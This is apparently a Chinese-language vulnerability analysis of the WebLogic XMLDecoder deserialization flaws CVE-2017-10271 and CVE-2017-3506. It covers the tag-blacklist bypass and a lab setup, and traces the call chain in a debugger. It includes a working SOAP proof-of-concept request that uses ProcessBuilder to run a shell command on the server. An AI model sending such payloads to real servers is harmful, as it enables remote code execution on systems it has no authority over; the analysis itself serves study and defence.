# 漏洞简介

Weblogic的WLS Security组件对外提供webservice服务，其中使用了XMLDecoder来解析用户传入的XML数据，在解析的过程中出现反序列化漏洞。

CVE-2017-10271&CVE-2017-3506原理一样,因为再CVE-2017-3506之后,官方在startElement方法下禁止了object标签

```java
 if(qName.equalsIgnoreCase("object")) {
                  throw new IllegalStateException("Invalid context type: object");
               }
```

绕过方法仅仅是类的标签类型由 object 变成了 void,VoidElementHandler继承于ObjectElementHandler,自然就可以绕过 

此外还可以使用new和method标签构造payload,这也就是为什么修复的时候会把这些标签加入黑名单

# 环境搭建

使用wls版本为10.3,可以使用之前`CVE-2015-4852`的docker环境

用如下命令导出jar包:

```java
[root@docker]# find /u01/app/oracle/middleware -name "*.jar" -exec cp {} /tmp/10.3wlsjar/ \;
[root@kali]# mkdir 10.3wlsjar  
[root@kali]# docker cp weblogic1036jdk1.8:/tmp/10.3wlsjar/ ./10.3wlsjar/
```

也可以参考这篇博客搭建环境:https://www.cnblogs.com/ph4nt0mer/p/11772709.html

发送payload,进行调试（Content-Type需要等于 text/xml）

```http
POST http://192.168.182.137:7001/wls-wsat/CoordinatorPortType HTTP/1.1
Host: 192.168.182.137:7001
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 538

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="2">
<void index="0">
<string>mkdir</string>
</void>
<void index="1">
<string>/tmp/xml3</string>
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
```

# 流程分析


首先在XMLDecode#readObject方法中打断点,得到如下调用链

```java
readObject:250, XMLDecoder (java.beans)
readUTF:111, WorkContextXmlInputAdapter (weblogic.wsee.workarea)
readEntry:92, WorkContextEntryImpl (weblogic.workarea.spi)
receiveRequest:179, WorkContextLocalMap (weblogic.workarea)
receiveRequest:163, WorkContextMapImpl (weblogic.workarea)
receive:71, WorkContextServerTube (weblogic.wsee.jaxws.workcontext)
readHeaderOld:107, WorkContextTube (weblogic.wsee.jaxws.workcontext)
processRequest:43, WorkContextServerTube (weblogic.wsee.jaxws.workcontext)
__doRun:866, Fiber (com.sun.xml.ws.api.pipe)
_doRun:815, Fiber (com.sun.xml.ws.api.pipe)
doRun:778, Fiber (com.sun.xml.ws.api.pipe)
runSync:680, Fiber (com.sun.xml.ws.api.pipe)
process:403, WSEndpointImpl$2 (com.sun.xml.ws.server)
handle:539, HttpAdapter$HttpToolkit (com.sun.xml.ws.transport.http)
handle:253, HttpAdapter (com.sun.xml.ws.transport.http)
handle:140, ServletAdapter (com.sun.xml.ws.transport.http.servlet)
handle:171, WLSServletAdapter (weblogic.wsee.jaxws)
run:708, HttpServletAdapter$AuthorizedInvoke (weblogic.wsee.jaxws)
doAs:363, AuthenticatedSubject (weblogic.security.acl.internal)
runAs:146, SecurityManager (weblogic.security.service)
.
.
.
```

我们从`WLSServletAdapter#handle`看起

这里我们的请求方式不为GET,进入super.handle



这里createConnection()用于创建server applet连接,不重要,再次进入handle

这里tk的生成跟我们的payload好像没关系,我们的payload此时在connection中,在此进入HttpToolkit#handle



这里新建了一个Packet,然后迎来了一个关键的方法decodePacket()



codec是一个xml数据包




然后进入了一系列的赋值,这里payload存储在了in中,跟进codec.decode



进入



前面的if条件主要是进行一些检查判断,跳过。



这里对packet.Message进行赋值



最后返回packet这里将我们的数据包转换成了packet对象,接下来关注packet对象的操作

来到这里:



这里进行了一系列的赋值操作,但并没有影响到我们的payload,然后来到fiber.runSync()



这里创建了一个var7,并进行赋值var7=packet,然后将var7返回变成response,中间并没有对var7进行操作。所以很有可能是在this.doRun方法中处理var7



这里有个_doRun方法



又遇到个_doRun



这里来到了个for循环



结合前面的调用栈来看，`WorkContextServerTube.processRequest()`才是触发漏洞的一环，而非此处的`this.next`为`WseeServerTube`。这里快进到`this.next=WorkContextServerTube`

这里将`packet.message.headers`传入了readHeaderOld



这里对我们的var1进行了一系列操作后(var3.bridge有点看不明白),byte类型的var4为我们的payload



然后进入this.receive(var6),一直往里走





成功到达xmlDecoder#readObject



# 参考

https://www.anquanke.com/post/id/231484#h3-7

https://www.cnblogs.com/ph4nt0mer/p/11775908.html